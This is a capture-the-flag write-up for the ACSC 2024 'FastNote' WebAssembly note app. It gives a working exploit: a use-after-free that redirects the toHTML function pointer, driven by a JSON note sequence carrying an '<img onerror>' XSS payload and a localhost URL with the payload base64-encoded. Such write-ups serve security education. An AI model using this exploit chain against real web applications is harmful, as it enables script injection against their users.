 # ACSC24

ACSC 2024 Challenges

## FastNote

### Description

I heard WebAssembly is super fast, so I made a note-taking app with it. What could go wrong?

### Solution

Use After Free (UAF) to overwrite the `toHTML` function pointer to the `populateNoteHTML` JavaScript function.

![](./1.png)

![](./2.png)

```json
[
  {
    "action": "add",
    "title": "<img/src/onerror=alert()>",
    "content": ""
  },
  {
    "action": "delete",
    "noteId": 0
  },
  {
    "action": "add",
    "title": "\u0005\u0000\u0000\u0000",
    "content": ""
  }
]
```

`http://127.0.0.1:5500/?s=WwogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICI8aW1nL3NyYy9vbmVycm9yPSdhbGVydCgpJz4iLAogICAgImNvbnRlbnQiOiAiIgogIH0sCiAgewogICAgImFjdGlvbiI6ICJkZWxldGUiLAogICAgIm5vdGVJZCI6IDAKICB9LAogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICJcdTAwMDVcdTAwMDBcdTAwMDBcdTAwMDAiLAogICAgImNvbnRlbnQiOiAiIgogIH0KXQ`